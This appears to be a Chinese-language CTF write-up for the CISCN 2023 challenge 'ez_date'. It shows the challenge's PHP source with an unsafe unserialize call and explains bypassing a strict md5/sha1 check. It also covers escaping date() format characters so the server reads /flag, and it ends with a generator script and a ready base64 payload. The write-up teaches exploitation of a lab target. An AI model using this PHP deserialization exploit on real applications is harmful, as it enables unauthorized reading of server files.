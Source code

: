 # 【CISCN 2023 华北】ez_date


# [CISCN 2023 华北]ez_date

## 思路
* 源码

  ```
   &lt;?php
  error_reporting(0);
  highlight_file(__FILE__);
  class date{
      public $a;
      public $b;
      public $file;
      public function __wakeup()
      {
          if(is_array($this-&gt;a)||is_array($this-&gt;b)){
              die(&#39;no array&#39;);
          }
          if( ($this-&gt;a !== $this-&gt;b) &amp;&amp; (md5($this-&gt;a) === md5($this-&gt;b)) &amp;&amp; (sha1($this-&gt;a)=== sha1($this-&gt;b)) ){
              $content=date($this-&gt;file);
              $uuid=uniqid().&#39;.txt&#39;;
              file_put_contents($uuid,$content);
              $data=preg_replace(&#39;/((\s)*(\n)&#43;(\s)*)/i&#39;,&#39;&#39;,file_get_contents($uuid));
              echo file_get_contents($data);
          }
          else{
              die();
          }
      }
  }
  
  unserialize(base64_decode($_GET[&#39;code&#39;])); 
  ```

* `is_array($this-&gt;a)||is_array($this-&gt;b)`：这里不能使用数组绕过

* `($this-&gt;a !== $this-&gt;b) &amp;&amp; (md5($this-&gt;a) === md5($this-&gt;b)) &amp;&amp; (sha1($this-&gt;a)=== sha1($this-&gt;b))`：需要绕过===

  * 解决：`a=1`和`b=&#39;1&#39;`可以绕过

* 读取文件的名字绕过

  ```
  $content=date($this-&gt;file);
  $uuid=uniqid().&#39;.txt&#39;;
  file_put_contents($uuid,$content);
  $data=preg_replace(&#39;/((\s)*(\n)&#43;(\s)*)/i&#39;,&#39;&#39;,file_get_contents($uuid));
  ```

  * `date()`

    该方法会检测传入的字符串中是否有特定的格式化字符，如Y（年份）、m（月份）、d（天）、H（时）、i（分钟）、s（秒）等

    检测存在则会将格式化字符替换为当前时间的对应部分，**否则将字符进行原样输出**，同时可用转义字符将格式化字符原样输出

  * `uniqid()`

    生成一个时间戳，将生成的时间戳拼接.txt给$uuid

  * `preg_replace(&#39;/((\s)*(\n)&#43;(\s)*)/i&#39;,&#39;&#39;`

    1. 开头的`/`和`i`前的`\`表示正则表达式语法的开始和结束
    2. `(\s)*` ：匹配零个或多个**空白字符**（空格、制表符等）
    3. `(\n)&#43;` ：匹配一个或多个**换行符**
    4. `(\s)*` ：再次匹配零个或多个**空白字符**
    5. `i` ：修饰符，表示**不区分大小写**

  * `file_get_contents()`

    | path         | 必需。规定要读取的文件。                                     |
    | ------------ | ------------------------------------------------------------ |
    | include_path | 可选。如果您还想在 include_path（在 php.ini 中）中搜索文件的话，请设置该参数为 &#39;1&#39;。 |
    | context      | 可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。若使用 NULL，则忽略。 |
    | start        | 可选。规定在文件中开始读取的位置。该参数是 PHP 5.1 中新增的。 |
    | max_length   | 可选。规定读取的字节数。该参数是 PHP 5.1 中新增的。          |

  我们要读flag文件那猜测最常见在/flag，我们可以看一下那个date格式化把flag搞成啥样。

  因为如果不会被替换的部分会直接原样输出。

  ```
  &lt;?php
  $a=&#39;/flag&#39;;
  print(date($a));
  ?&gt;
  ```

  输出结果为：/fWednesdayam10

  说明f、l、a、g都被替换，因此使用转义符防止被替换

  即`/f\l\a\g`

## Payload

```
&lt;?php
class date{
    public $a;
    public $b;
    public $file;
    public function __wakeup()
    {
        if(is_array($this-&gt;a)||is_array($this-&gt;b)){
            die(&#39;no array&#39;);
        }
        if( ($this-&gt;a !== $this-&gt;b) &amp;&amp; (md5($this-&gt;a) === md5($this-&gt;b)) &amp;&amp; (sha1($this-&gt;a)=== sha1($this-&gt;b)) ){
            echo &#39;aaa&#39;;
            $content=date($this-&gt;file);
            $uuid=uniqid().&#39;.txt&#39;;
            file_put_contents($uuid,$content);
            $data=preg_replace(&#39;/((\s)*(\n)&#43;(\s)*)/i&#39;,&#39;&#39;,file_get_contents($uuid));
            echo file_get_contents($data);
        }
        else{
            die();
        }
    }
}

//unserialize(base64_decode($_GET[&#39;code&#39;]));
$f = new date();
$f-&gt;a = 1;
$f-&gt;b = &#39;1&#39;;
$f-&gt;file = &#34;/f\l\a\g&#34;;
echo urlencode(base64_encode(serialize($f)));
```

```
?code=Tzo0OiJkYXRlIjozOntzOjE6ImEiO2k6MTtzOjE6ImIiO3M6MToiMSI7czo0OiJmaWxlIjtzOjg6Ii9mXGxcYVxnIjt9
```

## 总结
* php反序列化
* md5绕过
* 文件读取

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-ciscn-2023-%E5%8D%8E%E5%8C%97ez_date/  

